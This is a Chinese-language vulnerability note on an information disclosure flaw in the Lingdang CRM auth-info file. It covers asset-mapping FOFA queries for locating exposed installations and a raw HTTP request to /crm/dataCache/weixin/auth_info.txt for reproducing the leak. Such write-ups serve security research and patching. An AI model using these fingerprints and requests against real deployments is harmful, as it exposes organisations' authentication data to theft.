 # 灵当crm auth-info 存在信息泄露漏洞

# 一、漏洞简介
<font style="color:rgb(51, 51, 51);">灵当CRM（Customer Relationship Management，客户关系管理）是一款面向中小企业的客户关系管理软件，旨在帮助企业更好地管理客户信息、销售流程、市场营销和服务支持等方面的工作。灵当CRM提供了一系列工具和功能，帮助企业在销售、市场和服务部门之间实现高效协作，提高客户满意度和业务效率。灵当CRM客户管理系统auth-info 存在信息泄露漏洞。</font>

# 二、影响版本
+ 灵当crm

# 三、资产测绘
+ fofa`body="[http://localhost:8088/crm/index.php"](http://localhost:8088/crm/index.php") && body="ldcrm.base.js"` `<font style="color:rgb(51, 51, 51);">body="crmcommon/js/jquery/jquery-1.10.1.min.js"</font>`
+ 特征

![1722999861305-1e9e41ad-ed6a-4750-918d-61a0631ad06a.png](./img/cG69q8kjl5ea6aqq/1722999861305-1e9e41ad-ed6a-4750-918d-61a0631ad06a-284399.png)

# 四、漏洞复现
```java
POST /crm/dataCache/weixin/auth_info.txt HTTP/1.1
Host: 
Content-Length: 779
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary0Mh3BfgWszxRFokh
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
```

![1726734061269-8f9d8451-18ae-477b-b392-9d4db0f4ecc5.png](./img/cG69q8kjl5ea6aqq/1726734061269-8f9d8451-18ae-477b-b392-9d4db0f4ecc5-484618.png)





> 更新: 2024-10-21 11:49:37  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/iayn7tuulf8b68rg>